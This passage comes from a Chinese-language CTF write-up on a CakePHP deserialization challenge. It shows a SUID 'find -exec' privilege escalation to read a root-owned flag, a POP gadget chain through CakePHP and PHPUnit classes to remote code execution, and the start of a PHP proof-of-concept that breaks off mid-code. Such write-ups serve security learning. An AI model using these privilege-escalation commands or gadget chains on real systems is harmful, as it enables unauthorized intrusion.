 `GET /ser?ser=xxxx` ， `ls`  `find` 之类的命令可以执行且有回显，但是 `cat /flag.txt` 无回显，之前学长提到过 suid 提权（从 www-data 提到 root），试一下能不能行

`find / -perm -u=s -type f 2&gt;/dev/null` ，可以看到 `find` 有 suid 权限

```bash
/usr/bin/chsh
/usr/bin/find
/usr/bin/chfn
/usr/bin/su
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
```

执行 `find / -name flag.txt -exec whoami \;` ，返回 root ，提权成功

执行 `find / -name flag.txt -exec cat /flag.txt \;` ，拿到 flag

![image-20250126001404890](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67950dcd85cce.png)

#### 0x03 POP2

这是另一条链子，跟 0x00 背景知识没什么关系

`stream` 可控的情况下，可以调用任意类的 `__call` 方法

`/vendor/cakephp/cakephp/src/ORM/Table.php` ，`$method` 、 `$this-&gt;_behaviors` 可控，所以 `hasMethod($method)` 可控制永远为 true ，但是 `$args` 不可控

![image-20250125214317076](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794ea75d8335.png)

所以需要找一个能够 rce 的地方，且需要执行方法与函数形参无关（与成员变量有关）

`/vendor/phpunit/phpunit/src/Framework/MockObject/Generator/MockTrait.php` （或者  `MockClass.php` ），找到

![image-20250125215333731](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794ecde54da9.png)

其中 `classCode` 和 `mockName` 均可控

链子找到了：

```pop
RejectedPromise::__destruct()-&gt;Response::__toString()-&gt;Table::__call()-&gt;MockTrait::generate()
```

poc 如下

```php
&lt;?php

namespace React\Promise\Internal;
use Cake\Http\Response;
class RejectedPromise {
    private $reason;
    private $handled = false;
    public function __construct() {
        $this-&gt;reason = new Response();
    }
}

namespace Cake\Http;
use Cake\ORM\Table;
class Response {
    private $stream;
    public function __construct() {
```